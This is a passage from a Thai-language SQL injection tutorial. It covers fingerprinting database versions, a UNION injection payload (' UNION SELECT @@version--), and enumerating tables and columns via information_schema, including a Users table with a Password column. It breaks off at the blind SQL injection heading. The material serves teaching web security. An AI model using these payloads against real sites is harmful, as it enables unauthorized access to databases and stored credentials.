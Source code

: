 **การ query ประเภทและเวอร์ชันของฐานข้อมูล**

คุณสามารถระบุทั้งประเภทและเวอร์ชันของฐานข้อมูลได้โดยการแทรก query เฉพาะของผู้ให้บริการเพื่อดูว่าอันไหนทำงาน

ต่อไปนี้คือ query บางตัวเพื่อหาเวอร์ชันฐานข้อมูลสำหรับฐานข้อมูลยอดนิยมบางประเภท:

| ประเภทฐานข้อมูล | Query |
|---|---|
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

เช่น คุณสามารถใช้การโจมตี `UNION` กับข้อมูลนำเข้าต่อไปนี้:
`' UNION SELECT @@version--`

วิธีนี้อาจส่งคืนผลลัพธ์ดังต่อไปนี้ ในกรณีนี้ คุณสามารถยืนยันได้ว่าฐานข้อมูลเป็น Microsoft SQL Server และดูเวอร์ชันที่ใช้:
`Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)`

**การแสดงรายการเนื้อหาของฐานข้อมูล**

ฐานข้อมูลประเภทส่วนใหญ่ (ยกเว้น Oracle) มีชุด view เรียกว่า information schema ซึ่งให้ข้อมูลเกี่ยวกับฐานข้อมูล

เช่น คุณสามารถ query `information_schema.tables` เพื่อแสดงรายการตารางในฐานข้อมูล:
`SELECT * FROM information_schema.tables`

วิธีนี้จะส่งคืนผลลัพธ์เช่นนี้:
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

ผลลัพธ์นี้แสดงว่ามีสามตาราง ชื่อ `Products`, `Users`, และ `Feedback`

จากนั้นคุณสามารถ query `information_schema.columns` เพื่อแสดงรายการคอลัมน์ในตารางแต่ละตาราง:
`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

วิธีนี้จะส่งคืนผลลัพธ์เช่นนี้:
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

ผลลัพธ์นี้แสดงคอลัมน์ในตารางที่ระบุและชนิดข้อมูลของแต่ละคอลัมน์

**Blind SQL injection คืออะไร?**
